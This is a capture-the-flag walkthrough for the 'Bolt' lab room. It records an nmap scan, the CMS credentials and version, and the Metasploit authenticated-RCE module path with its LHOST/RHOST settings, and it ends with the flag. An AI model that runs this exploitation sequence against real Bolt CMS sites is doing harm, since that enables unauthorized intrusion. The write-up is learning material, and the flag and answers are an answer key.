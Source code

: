 **A hero is unleashed**

Once you have successfully deployed the VM , enumerate it before finding the flag in the machine.  

Answer the questions below

```
export IP=10.10.105.168
```

| Question                                              | Answer |
| ----------------------------------------------------- | ------ |
| What port number has a web server with a CMS running? | 8000   |
```
nmap -sC -sV -A -T4 -v -p- -oN scans/nmap $IP
```

![[Pasted image 20240422200214.png]]


| Question                                     | Answer |
| -------------------------------------------- | ------ |
| What is the username we can find in the CMS? | bolt   |

![[Pasted image 20240422200529.png]]


| Question                                           | Answer       |
| -------------------------------------------------- | ------------ |
| What is the password we can find for the username? | boltadmin123 |

![[Pasted image 20240422200607.png]]


| Question                                                             | Answer     |
| -------------------------------------------------------------------- | ---------- |
| What version of the CMS is installed on the server? (Ex: Name 1.1.1) | Bolt 3.7.1 |

*Search for Bolt CMS default login page:*

![[Pasted image 20240422202548.png]]


![[Pasted image 20240422202635.png]]


![[Pasted image 20240422202759.png]]



| Question                                                                                                                         | Answer |
| -------------------------------------------------------------------------------------------------------------------------------- | ------ |
| There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID? |        |

![[Pasted image 20240422203124.png]]




| Question                                                                                                                                                                                                                                                                                                | Answer                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------ |
| Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)<br><br>Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `**apt update**` then `**apt install metasploit-framework**` | exploit/unix/webapp/bolt_authenticated_rce |

![[Pasted image 20240422203419.png]]


| Question                                                                                       | Answer |
| ---------------------------------------------------------------------------------------------- | ------ |
| Set the **LHOST, LPORT, RHOST, USERNAME, PASSWORD** in msfconsole before running the exploit   |        |

![[Pasted image 20240422203603.png]]


```
set LHOST tun0
```

![[Pasted image 20240422203752.png]]

```
set RHOST 10.10.105.168
```

![[Pasted image 20240422204001.png]]

```
set USERNAME bolt
```

![[Pasted image 20240422204047.png]]

```
set PASSWORD boltadmin123
```

![[Pasted image 20240422204132.png]]


| Question                              | Answer                            |
| ------------------------------------- | --------------------------------- |
| Look for flag.txt inside the machine. | THM{wh0_d035nt_l0ve5_b0l7_r1gh7?} |

![[Pasted image 20240422225702.png]]


![[Pasted image 20240422230018.png]]

